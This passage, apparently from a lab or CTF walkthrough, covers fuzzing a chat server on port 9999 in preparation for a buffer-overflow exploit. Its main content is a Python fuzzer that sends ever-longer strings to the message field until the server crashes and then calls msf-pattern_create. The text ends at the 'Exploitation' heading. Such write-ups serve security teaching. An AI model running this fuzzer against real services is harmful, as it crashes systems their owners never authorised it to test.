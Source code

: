 Inside of Kali, I confirmed that it was identical to the target’s chat server by connecting to port 9999 with Netcat and interacting with the program.

# Fuzzing

Let’s start the program in Immunity Debugger and fuzz the application to determine a breakpoint.

I’ll test the username field first by entering a 100-character long string of *A’s* into it.

![](https://user-images.githubusercontent.com/85040841/154784166-0e51e9ca-de7a-480d-a97f-6bf8a304d930.png)

Nothing promising, as the length of my username was trimmed to the stated limit.

After sending an even longer string and viewing the outputs on the client-side and server-side, it was clear that the server handled the username input correctly by shortening it to 20 characters.

That makes the only remaining attack vector the message field of the application.

Knowing this, I wrote a Python script, **fuzzer.py**, that sends the chat server an arbitrary username and fuzzes for a breakpoint in the message field.

```python
import socket, time, sys, os

ip = "192.168.56.110"
port = 9999
timeout = 4
string = "A" * 100

print(f"Target IP: {ip}\n")

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
  s.settimeout(timeout)
  s.connect((ip, port))
  s.send(bytes("USER", "latin-1"))
  s.recv(1024)
  while True:
    num_bytes = len(string)
    try:   
      print(f"Fuzzing {ip} with {num_bytes} bytes")
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
    except:
      print(f"Fuzzing crashed at {num_bytes} bytes\n")
      os.system(f"msf-pattern_create -l {num_bytes}")
      sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```

![](https://user-images.githubusercontent.com/85040841/154787158-2c0008ef-8dc2-4659-83ba-2ac89e0ccd53.gif)

# Exploitation
